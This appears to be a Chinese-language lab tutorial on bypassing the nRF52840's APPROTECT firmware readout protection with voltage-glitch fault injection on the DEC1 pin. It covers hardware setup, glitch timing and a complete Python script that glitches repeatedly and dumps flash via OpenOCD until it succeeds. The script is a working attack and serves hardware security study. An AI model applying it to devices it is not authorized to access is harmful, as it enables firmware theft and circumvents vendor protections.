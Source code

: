 # 相关工具及环境



## 推荐硬件设备清单

- nRF52840 QIAAD0 开发板（USB Dongle）
- Pico 示波器
- PowerShorter 电压短路故障注入设备
- FlexHolder 柔性探针台
- Jlink 调试器
- 杜邦线若干



## 软件清单

- [Jlink 软件及驱动](https://www.segger.com/downloads/jlink/)
- [nRF-Command-Line-Tools](https://www.nordicsemi.com/Products/Development-tools/nRF-Command-Line-Tools)
- [openocd](https://github.com/xpack-dev-tools/openocd-xpack/releases)
- [Pico 示波器软件](https://www.picotech.com/downloads)
- [zadig](https://zadig.akeo.ie/)

------

# APPROTECT 介绍与开启

nRF52 系列芯片为保护开发者固件不被非法读取，提供了 APPRTOECT 固件读保护机制，开启读保护后无法使用 SWD 接口读取芯片内的固件



## 开启保护方法

先使用 Jlink 连接 目标 SWD 接口

| USB Dongle | **Jlink** |
| ---------- | --------- |
| VDD        | VT/VREF   |
| GND        | GND       |
| SWCLK      | TCK/SWCLK |
| SWDIO      | TMS/SWDIO |

![image-20241210113020427](./img/image-20241210113020427.png)

使用官方命令行工具（nRF-Command-Line-Tools）执行如下命令，对开发板重新上电复位后生效：

```
nrfjprog -f nRF52 --memwr 0x10001208 --val 0xFFFFFF00
```



再次连接芯片已无法查看 Flash

![image-20241210105012402](./img/image-20241210105012402.png)



## 解除保护方法

不管是 Jflash 还是官方命令行工具都提供解除保护的功能（代价是清除芯片内固件，以达到保护固件不被非法读取的目的）

JFlash 软件在探测到保护开启时直接点击 Yes 即可解除保护

![image-20241210105116600](./img/image-20241210105116600.png)

官方命令行工具提供 ```nrfjprog -f NRF52 --recover``` 命令解除保护



## APPROTECT 介绍

通过阅读[芯片手册第 42 页](https://docs.nordicsemi.com/bundle/nRF52840_PS_v1.2/resource/nRF52840_PS_v1.2.pdf)可以得知：APPROTECT 寄存器位于 0x10001208 默认值 0xFF 表示关闭保护，若写为 0x00 则表示开启保护，因此官方工具开启保护实际是将该寄存器写为了 0x00

芯片上电后会读取该寄存器的值，若为 0x00 则配置保护机制，不允许通过 SWD 接口访问芯片内固件，因此我们可以在芯片上电时对其进行故障注入，绕过该配置流程，使得调试接口保持开启状态

------

# 故障注入绕过 APPROTECT 读保护



## 电压毛刺注入物理位置：CPU 核心供电

电压故障注入攻击点位于芯片附近的一颗小电容的右侧，该点连接到芯片 DEC1 引脚（电容左侧通过万用表可测得为 GND）

![image-20241210105935824](./img/image-20241210105935824.png)



## 电压毛刺注入时间位置

使用示波器以 DEC1 上升沿作为触发，观察 DEC1 处电压波形，可以看到存在一个小的电压下降沿，压降大约 100~200mv，毛刺就打在这个小下降沿附近

![image-20241210110057903](./img/image-20241210110057903.png)



## 故障注入时遇到的问题

1、如何控制设备重启

​	答：通过 PowerShorter 设备的 GPIO 为 Dongle 供电，Python 代码控制 GPIO

2、打哪个地方的电压、如何打

​	答：打 DEC1；短接 DEC1 和 GND 使其电压短暂拉低

3、什么时候打故障

​	答：以 GPIO 供电上升沿作为触发，设置延时，故障打在 DEC1 下降沿附近

4、怎么判断是否打成功了

​	答：openocd 连接 SWD 读取固件，dump 成功则故障注入成功（注：Openocd 调用 jlink 需要使用 zadig 软件安装 winusb 驱动）



**配合 Flex Holder 柔性探针台可以免去焊接，直接将小电容右侧的 DEC1 引脚引出**

![image-20241210110621643](./img/image-20241210110621643.png)

![image-20241210110628584](./img/image-20241210110628584.png)



## 硬件接线参考

![image-20241210113346327](./img/image-20241210113346327.png)



## 成功波形参考

A 通道(蓝色波形)为供电电压；B 通道(红色波形)为 DEC1 电压

DEC1 的下降沿位置恰好被故障毛刺命中，不再表现为下降沿，但并不是没有下降沿就为成功

![image-20241210110739940](./img/image-20241210110739940.png)



## 攻击脚本参考

**推荐使用 Jupyter Lab 进行实验**

导入 Python 库

```
from power_shorter import *
import time, os, random, subprocess
import serial
import faultviz
```

初始化设备

```
ps_dev = PowerShorter('com55')
```

测试设备上下电

```
ps_dev.gpio(GPIO.GPIO1, 0)
time.sleep(1)
ps_dev.gpio(GPIO.GPIO1, 1)
```

初始化 faultviz 服务与表单

```
faultviz.start_view_service(port=12345) 
vt = faultviz.ViewWidget()
```

定义攻击函数

```
def nrf52_attack():
    ps_dev.gpio(GPIO.GPIO1, 0)
    time.sleep(1)
    glitch_delay = random.randint(158500, 158700) # 设置毛刺延迟范围
    glitch_pulse = random.randint(100, 300)       # 设置毛刺宽度范围
    ps_dev.engine_cfg(Engine.E1, [(0, glitch_delay), (1, glitch_pulse), (0, 1)], TRIGGER_MODE.RISE)    # 设置毛刺延时及宽度
    ps_dev.arm(Engine.E1)        # 激活毛刺
    ps_dev.gpio(GPIO.GPIO1, 1)   # 设备上电
    time.sleep(0.5)              # 延迟一段时间 等待攻击完成
    s = ps_dev.state(Engine.E1)  # 检查毛刺状态
    if s == "glitched":
        res, result = subprocess.getstatusoutput('openocd -f interface/jlink.cfg -c "transport select swd" -f target/nrf52.cfg -c "init;dump_image nrf_flash.bin 0x0 0x10000;exit"')  # 通过 OpenOCD dump 固件，若成功则表示已绕过 APPROTECT
        if "Could not find MEM-AP to control the core" in result:
            status = "Normal"
        elif "No J-Link device found" in result:
            status = "No Jlink"
        elif res == 0:
            status = "Success"
        else:
            status = "Unknown"
        vt.update(state = status, delay = glitch_delay, pulse = glitch_pulse, result = result, res = res)  # 更新故障结果到表单
        return res
    else:
        print("no trigger")
```

执行一次攻击函数，检查代码是否有问题

```
nrf52_attack()
```

查看表单，检查刚才的攻击是否将结果添加到表单中

```
vt.show()
```

写个循环，直到成功绕过 APPROTECT 才停止攻击，循环过程中故障参数及结果会不断添加到 vt 表单中，配合示波器调整参数，优化毛刺位置

```
doAttack = 1
while(doAttack):
    doAttack = nrf52_attack()
```



